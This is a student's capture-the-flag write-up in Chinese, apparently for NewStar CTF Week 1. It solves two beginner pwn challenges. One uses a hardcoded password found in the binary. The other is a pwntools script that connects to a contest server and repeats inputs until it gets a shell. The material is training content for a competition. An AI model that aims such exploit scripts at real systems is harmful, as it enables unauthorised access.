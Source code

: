 # NS24_Week1_CrazyCat_20233001236_刘涵
## 信息
- 平台ID：CrazyCat
- 姓名：刘涵
- 学号：20233001236
- 轮次：Week1
## 解出题目
![[Pasted image 20240929131422.png]]
![[Pasted image 20240929131459.png]]
![[Pasted image 20240929122557.png]]
(2024.9.29)

# PWN

## Real Login
![[Pasted image 20240929115710.png]]
`fun`函数中可以看出输入的`v3`等于`password`时即可运行`win`函数获取`shell`
![[Pasted image 20240929115811.png]]
可以看到`password`的内容为'NewStar!!!'，输入获取`shell`
![[Pasted image 20240929115852.png]]

## Game
![[Pasted image 20240929115948.png]]
`game`函数中可以看出输入的`v0`在(0,10)的范围内,
构造循环输入直到`v1>999`即可
exp:
```python
# 一次跑不通就多跑几次
from pwn import *

# context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
    p = process('./game')
else:
    p = remote('39.106.48.123', 26563)

v1 = 0

while v1 <= 999:
    p.recvuntil(b'num: ')
    p.sendline(b'10')
    v1 += 10
    print(v1)

print(v1)
p.interactive()
```
运行获取`shell`
![[Pasted image 20240929120213.png]]
